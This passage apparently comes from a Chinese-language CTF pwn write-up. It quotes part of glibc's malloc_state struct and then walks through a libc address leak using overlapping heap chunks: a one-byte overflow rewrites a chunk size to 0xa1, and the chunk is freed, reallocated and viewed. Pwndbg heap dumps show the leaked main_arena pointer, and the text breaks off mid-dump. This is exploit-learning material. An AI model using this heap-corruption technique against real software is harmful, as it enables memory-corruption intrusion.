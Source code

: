 ```c

    /* Linked list for free arenas.  Access to this field is serialized
       by free_list_lock in arena.c.  */
    struct malloc_state *next_free;

    /* Number of threads attached to this arena.  0 if the arena is on
       the free list.  Access to this field is serialized by
       free_list_lock in arena.c.  */
    INTERNAL_SIZE_T attached_threads;

    /* Memory allocated from the system in this arena.  */
    INTERNAL_SIZE_T system_mem;
    INTERNAL_SIZE_T max_system_mem;
};
```

泄露方法：采用overlapping chunk技术。

```
alloc(0x48) #0                         |
alloc(0x48) #1                         |   注意: 这里应至少分配4个块，如果只
alloc(0x48) #2                         |   		分配3个块，那么删除第二个块的时候，
alloc(0x48) #3                         |         就会和top chunk合并，导致无法泄露信息
update(0, "A"*0x48 + "\xa1", 0x49)     # 修改1的chunk size为0xa1
delete(1)                              # 实际上是将1和2一起释放了
alloc(0x48)                            # 申请1
view(2)                                # 2我们是可以查看的
```

首先申请4个0x48个字节空间的区块，这样每个区块的大小都是0x50。然后填充区块1，并修改第2个块的大小为 0xa1, 这是因为 `0xa0 = 0x50  + 0x50`，这样，当我们删除第二个块的时候，第三个块也被删除，这时候我们再申请0x48个字节空间的区块时，这个块的索引依然为1，并将main_arean的地址写入第2个块中，而第2个块可以查看。

调试信息:

```
pwndbg> heap
0x555555757000 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x4141414141414141, 
  bk = 0x4141414141414141, 
  fd_nextsize = 0x4141414141414141, 
  bk_nextsize = 0x4141414141414141
}
0x555555757050 FASTBIN {
  prev_size = 4702111234474983745, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x7ffff7dd1b78 <main_arena+88>, 
  bk = 0x7ffff7dd1b78 <main_arena+88>, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570f0 {
  prev_size = 80, 
  size = 80, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
```